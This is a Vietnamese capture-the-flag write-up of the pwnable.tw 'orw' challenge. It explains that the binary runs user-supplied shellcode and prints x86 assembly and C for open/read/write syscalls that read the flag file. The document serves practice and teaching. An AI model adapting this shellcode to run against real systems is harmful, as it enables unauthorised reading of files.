





# [pwnable.tw] - orw



## A. CHALLENGE 

### [1] Binary Mitigations. 

- Đầu tiên ta kiếm tra các mitigations và xem thông tin cơ bản của file.



- Chương trình 32-bit khá đơn giản, cho phép nhập một chuỗi đầu vào (là shellcode) và cuối hàm main thì gọi tới `function pointer` trỏ tới shellcode mà chúng ta đã nhập. 



## B. OVERVIEW

### [1] Vulnerability Analysis.

- Phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write` để đọc flag, khi chúng ta nhập input là shellcode thì chương trình sẽ thực thi shellcode đó. 



### [2] Idea Exploit.

- Chúng ta sẽ dùng **syscall_open** để mở file flag ở **/home/orw/flag** và dùng **syscall_read**, **syscall_write** để đọc và ghi flag ra **terminal**.
## C. EXPLOITATION

### [1] Stage 1: Shellcode

- Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành shellcode. 

```c
char *fn = “/home/orw/flag”;
sys_open(fn, 0, 0);
sys_read(3, fn, 0x30);
sys_write(1, fn, 0x30);
```

* __NOTE:__ Tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) chuyển asm => shellcode.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:

